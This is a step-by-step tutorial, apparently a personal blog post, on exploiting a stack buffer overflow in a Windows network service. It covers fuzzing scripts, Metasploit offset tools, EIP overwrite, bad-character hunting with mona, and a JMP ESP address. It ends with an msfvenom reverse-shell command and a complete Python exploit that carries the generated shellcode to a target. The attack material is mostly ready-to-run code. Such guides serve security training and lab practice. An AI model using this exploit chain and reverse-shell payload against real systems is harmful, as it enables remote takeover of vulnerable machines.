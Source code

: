 ```yaml
---
author: Charlie T
title: Stack Buffer Overflow
date: 2024-03-10
description: A guide on how to conduct a stack-based buffer overflow
math: false
tags:
  - overflow
  - python
  - bufferoverflow
---
```

## Fuzzing

- Playing around with the application first to see how to send it bytes will allow to then do some fuzzing to see where and when it crashes
- Lets assume we have information on how to send data over to the application to being the fuzzing
```python
#!/usr/bin/python3
import sys, socket
from time import sleep
#Prefix is needed if the app requires a command to be sent with data
#prefix = "OVERFLOW3 " #Make sure to add prefix to payload
buffer = "A" * 100

while True:
    try:
        payload = buffer + '\r\n'
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.0.131', 31337))
        print("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()

```

- Pay attention to Immunity debugger, once it says `paused` that means the application has crashed. Take note at what amount of bytes the application crashed.
- In this example we will say that it crashed at `200 bytes`

## Finding the Offset

- Using a metasploit tool called pattern_create
```
#This will give us a pattern for our buffer variable
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
#why 200? thats where we saw that the crash happened approx in bytes
```
- Make sure to input this pattern into your buffer variable in the code:
```python
#!/usr/bin/python3
import sys, socket
#prefix = "OVERFLOW3 "
buffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- You will now be able to see the `EIP` which is what we need
![landscape](gettingthe_eip.png){align="center"}

- Using a metasploit tool called pattern_offset
```
#This will give us the exact offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <approx bytes when crash> -q <EIP finding>
```

- In this case, our offset is 146

## Overwriting the EIP

- Now that we have our offset, we will add our offset number into our payload variable as such:
```python
#!/usr/bin/python3
import sys, socket

#prefix = "OVERFLOW3 "
buffer = "A" * 146 + "B" * 4

print('Sending payload...')
payload = buffer + '\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send((payload.encode()))
s.close()
```

- When we run this payload, we will see that we now have complete control of the EIP
![landscape](overwriting_eip.png){align="center"}

- We can see that the EIP is 42424242, which tells us that we have control of the EIP

## Finding Bad Characters

- We will now try to find bad characters to remove them
1. First set mona's path with `!mona config -set workingfolder c:\mona\%p`
2. Using mona to generate bad chars with `!mona bytearray -b “\x00”`
3. Input the bad chars into our python script and run it
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"B" * 4

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"   b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"            b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"            b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

print('Sending payload...')
payload = buffer + badchars + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
4. Grab the `ESP` which in this case is `007419E4`. Mona will use the ESP to compare and find bad characters
5. Using mona to compare and find bad chars with `!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <ESPaddress>`
![landscape](comparingbadchars_mona.png){align="center"}
6. Remove the bad char from our badchars variable in our python script

## Finding a Jump Point

- Using mona to find a jump point with `!mona jmp -r esp -cpb “\x00\x0a”`
- Click on `l` to see all the available pointer addresses
- In this case we will use: `0x080414c3`
- We are only interested in the contents of the address that comes after "0x"

## Making Sure We Hit The Break point

- We have everything we need. We must make sure to set a jmp point at that address we received with mona
- To do this:
1. Restart Application and immunity Debugger
2. Click on the blue arrow and enter the address after the "0x" to follow it: `080414c3`
3. You will see the "address FFE4 JMP ESP", Now click F2 and it should be highlighted which means the JMP is now set
- Now just put our pointer address into our python script as such:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
#Note that our address 080414C3 is now written backwards in pairs of two with an x in front
buffer = b"A" * 146 + b"\xc3\x14\x04\x08"
print('Sending payload...')
payload = buffer + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('192.168.0.131', 31337))
s.send(payload)
s.close()
```
- Run the payload and we should see a message in immunity debugger that says `breakpoint at <program>`

## Malicious Time!

- Create a reverse shell payload with meterpreter:
```
#Make sure to put all of your bad chars found
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.33.34 LPORT=1234 -b "\x00\x0a" -f c
```
- Grab the output and input into the variable bad chars in our python script
- Then edit the IP to the target IP and start a listener on the port specified with msfvenom:
```python
#!/usr/bin/python3
import sys, socket
#prefix = b"OVERFLOW3 "
buffer = b"A" * 146 + b"\xc3\x14\x04\x08" + b"\x90" * 32

payload2 = (b"\xda\xcf\xba\xbe\x17\x2b\x4f\xd9\x74\x24\xf4\x5f\x33\xc9"            b"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xe9\x04\xc9\xba\xe9"
b"\xc3\x8f\x45\x11\x14\xf0\xcc\xf4\x25\x30\xaa\x7d\x15\x80"            b"\xb8\xd3\x9a\x6b\xec\xc7\x29\x19\x39\xe8\x9a\x94\x1f\xc7"
b"\x1b\x84\x5c\x46\x98\xd7\xb0\xa8\xa1\x17\xc5\xa9\xe6\x4a"            b"\x24\xfb\xbf\x01\x9b\xeb\xb4\x5c\x20\x80\x87\x71\x20\x75"
b"\x5f\x73\x01\x28\xeb\x2a\x81\xcb\x38\x47\x88\xd3\x5d\x62"            b"\x42\x68\x95\x18\x55\xb8\xe7\xe1\xfa\x85\xc7\x13\x02\xc2"
b"\xe0\xcb\x71\x3a\x13\x71\x82\xf9\x69\xad\x07\x19\xc9\x26"            b"\xbf\xc5\xeb\xeb\x26\x8e\xe0\x40\x2c\xc8\xe4\x57\xe1\x63"
b"\x10\xd3\x04\xa3\x90\xa7\x22\x67\xf8\x7c\x4a\x3e\xa4\xd3"            b"\x73\x20\x07\x8b\xd1\x2b\xaa\xd8\x6b\x76\xa3\x2d\x46\x88"
b"\x33\x3a\xd1\xfb\x01\xe5\x49\x93\x29\x6e\x54\x64\x4d\x45"            b"\x20\xfa\xb0\x66\x51\xd3\x76\x32\x01\x4b\x5e\x3b\xca\x8b"
b"\x5f\xee\x5d\xdb\xcf\x41\x1e\x8b\xaf\x31\xf6\xc1\x3f\x6d"            b"\xe6\xea\x95\x06\x8d\x11\x7e\x23\x5f\x38\x5c\x5b\x5d\x3a"
b"\xa4\x49\xe8\xdc\xce\x7d\xbd\x77\x67\xe7\xe4\x03\x16\xe8"            b"\x32\x6e\x18\x62\xb1\x8f\xd7\x83\xbc\x83\x80\x63\x8b\xf9"
b"\x07\x7b\x21\x95\xc4\xee\xae\x65\x82\x12\x79\x32\xc3\xe5"            b"\x70\xd6\xf9\x5c\x2b\xc4\x03\x38\x14\x4c\xd8\xf9\x9b\x4d"
b"\xad\x46\xb8\x5d\x6b\x46\x84\x09\x23\x11\x52\xe7\x85\xcb"            b"\x14\x51\x5c\xa7\xfe\x35\x19\x8b\xc0\x43\x26\xc6\xb6\xab"            b"\x97\xbf\x8e\xd4\x18\x28\x07\xad\x44\xc8\xe8\x64\xcd\xf8"
b"\xa2\x24\x64\x91\x6a\xbd\x34\xfc\x8c\x68\x7a\xf9\x0e\x98"
b"\x03\xfe\x0f\xe9\x06\xba\x97\x02\x7b\xd3\x7d\x24\x28\xd4"            b"\x57")

print('Sending payload...')
payload = buffer + payload2 + b'\r\n'
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('10.10.20.232', 31337))
s.send(payload)
s.close()
```

- Success!
![landscape](successfulBoF.png){align="center"}
